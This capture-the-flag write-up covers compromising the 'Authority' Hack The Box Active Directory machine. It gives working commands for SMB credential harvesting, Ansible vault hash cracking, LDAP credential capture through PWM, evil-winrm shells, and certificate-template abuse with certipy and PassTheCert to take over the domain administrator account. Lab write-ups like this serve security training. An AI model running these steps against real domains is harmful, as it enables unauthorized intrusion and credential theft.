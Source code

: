 # Authority

### Reconnaissance

22/tcp filtered ssh
53/tcp open domain Simple DNS Plus
80/tcp open http Microsoft IIS httpd 10.0
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2023-08-15 12:19:34Z)
111/tcp filtered rpcbind
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
445/tcp open microsoft-ds?
464/tcp open kpasswd5?
554/tcp filtered rtsp
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open ssl/ldap Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
3269/tcp open ssl/ldap Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8443/tcp open ssl/https-alt
9389/tcp open mc-nmf .NET Message Framing
47001/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49665/tcp open msrpc Microsoft Windows RPC
49666/tcp open msrpc Microsoft Windows RPC
49664/tcp open msrpc Microsoft Windows RPC
49667/tcp open msrpc Microsoft Windows RPC
49673/tcp open msrpc Microsoft Windows RPC
49688/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
49689/tcp open msrpc Microsoft Windows RPC
49691/tcp open msrpc Microsoft Windows RPC
49692/tcp open msrpc Microsoft Windows RPC
49701/tcp open msrpc Microsoft Windows RPC
49703/tcp open msrpc Microsoft Windows RPC
49715/tcp open msrpc Microsoft Windows RPC
60854/tcp open msrpc Microsoft Windows RPC

**HTTP**

port 80 displays the standard IIS landing page
port 593 RPC over HTTP
port 5985 API endpoint
port 8443 displays a login portal for PWM and a message:
```
PWM is currently in configuration mode. This mode allows updating the configuration without authenticating 
to an LDAP directory first. End user functionality is not available in this mode.

After you have verified the LDAP directory settings, use the Configuration Manager to restrict the 
configuration to prevent unauthorized changes. After restricting, the configuration can still be changed but 
will require LDAP directory authentication first.
```

**SMB**
```
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
Department Shares Disk      
Development     Disk      
IPC$            IPC       Remote IPC
NETLOGON        Disk      Logon server share 
SYSVOL          Disk      Logon server share 

Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.11.222 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

Development share contains Ansible yml files, download the files and use `grep -r -i pass Development` to 
find passwords

**PWM**

https://github.com/pwm-project/pwm

Found main.yaml containing Ansible vault passwords in SMB share 

Cracked Ansible vault password (remember to remove the filename prefix + : from the output of ansible2john)

```
ansible2john vault-hash.txt > hash.txt
# remove the file name and : from hash.txt before running hashcat/john

hashcat -m 16900 -O -a 0 -w 4 --session=vault hash.txt /usr/share/wordlists/rockyou.txt
john --format=ansible --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
Decrypt the vault passwords with ansible-vault and enter the cracked password when prompted

`cat vault-hash.txt | ansible-vault decrypt`

Use the test LDAP profile function in PWM to send the LDAP credentials in plaintext (remember to use ldap://)

Output from test LDAP Profile:
`CN=LDAP_user,OU=Service Accounts,OU=CORP,DC=authority,DC=htb�Password`

### Exploitation

crackmapexec shows winrm is available for the LDAP credentials recovered:

`crackmapexec winrm -u LDAP_user -p password 10.10.11.222`

Use evil-winrm and the recovered LDAP credentials to gain a remote shell on the target and access to user.txt
(the shell blocks NetBIOS which affects certificate requests later)

`evil-winrm -i 10.10.11.222 -u LDAP_user -p 'password'`

### Privilege Escalation

Template[8] -> not authorized to enroll, maybe need to do more for this?

Needed to add a user with impacket-addcomputer to request the vulnerable template

`impacket-addcomputer authority.htb/LDAP_user:'ldap_pass' -computer-name username -computer-pass password`

We can then use certipy to request the vulnerable template (-dns is found in the PWM panel, in the test LDAP 
profile section and -upn is the default Windows administrator account and the domain)

`certipy-ad req -username username$ -password password -cs AUTHORITY-CA -target authority.htb -template VulnTemplate -upn administrator@authority.htb -dns authority.authority.htb -dc-ip 10.1`

This gives us an administrator certificate which we can use to request a cert and key

```
certipy-ad cert -pfx adminstrator_authority.pfx -nokey -out user.crt
certipy-ad cert -pfx adminstrator_authority.pfx -nocert -out user.key
```

Use PassTheCert to change the Administrator account's password

`python3 passthecert.py -action ldap-shell -target administrator -dc-ip 10.10.11.222 -crt ~/htb/machines/authority/user.crt -key ~/htb/machines/authority/user.key`

Log in as Administrator with evil-winrm for root.txt
